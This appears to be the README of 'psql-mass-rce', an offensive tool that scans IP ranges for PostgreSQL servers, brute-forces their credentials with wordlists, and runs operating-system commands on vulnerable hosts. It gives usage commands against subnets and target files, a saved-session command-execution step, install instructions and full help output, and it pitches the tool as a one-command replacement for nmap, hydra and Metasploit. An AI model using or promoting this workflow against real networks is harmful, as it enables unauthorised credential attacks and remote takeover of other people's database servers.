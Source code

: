 Conviniently invoke RCE on PostgreSQL servers in network
=======

How does it work?
--------
Few examples to give you an idea:   

| Example | Comment |
|---------|---------|
| `./psql-mass-rce.py 10.1.1.10 192.168.0.100-150 --port 5433` | Accepts any number of any targets |
| `./psql-mass-rce.py 10.1.1.1/30 ./psql.gnmap --passfile rockyou.txt` | Accepts IP subnets and .gnmap files |
| `./psql-mass-rce.py -iL ./targets.txt --userfile users.txt` | Load IP[:port] from local file (nmap-alike) |


Scripts does the following:
1. Checks if port is open
2. Bruteforces credentials (using built-in dictionary or user files)
3. Determines PostgreSQL version and OS
4. Executes RCE if database user has enough rights

Live hosts with good credentials are saved to session file. After reconnaissance you may want to run RCE on those:   
`./psql-mass-rce.py --saved --command 'whoami'`   


Installation:
--------
`pip3 install -r requirements.txt`


Which PostgreSQL versions can give me RCE?
--------
PostgreSQL verions 9 and 10 (version 8 is in development).


Any zero-days inside?
--------
Not yet. [Technique](http://dsrbr.blogspot.ru/2015/04/os-command-execution-in-postgresql-93.html) was published almost 3 years ago.


Will it save my time?
--------
Definately yes.

| Before 	| After 	|
|--------	|-------	|
| 1. run nmap for port scanning<br/>2. run patator/hydra to bruteforce credentials<br/>3. run psql binary to connect and check version<br/>4. copy-paste payloads, or launch MSF `postgres_payload` manually at each host.     | ./psql-mass-rce.py 10.1.1.0/24 |


Full help:
--------
```
psql-mass-rce v0.1

Usage: psql-mass-rce.py targets [--userfile USERFILE] [--passfile PASSFILE]
               [--command COMMAND] [--port PORT] [--saved]

Necessary arguments:
  targets              Accepts any number of these: IP, network, or .gnmap file

Optional arguments:
  -h, --help           show this help message and exit
  --userfile USERFILE  File with a list of users
  --passfile PASSFILE  File with a list of passwords
  --command COMMAND    Command to execute on a target machine
  --port PORT          Port to connect
  --saved              Work on targets from saved session file
```
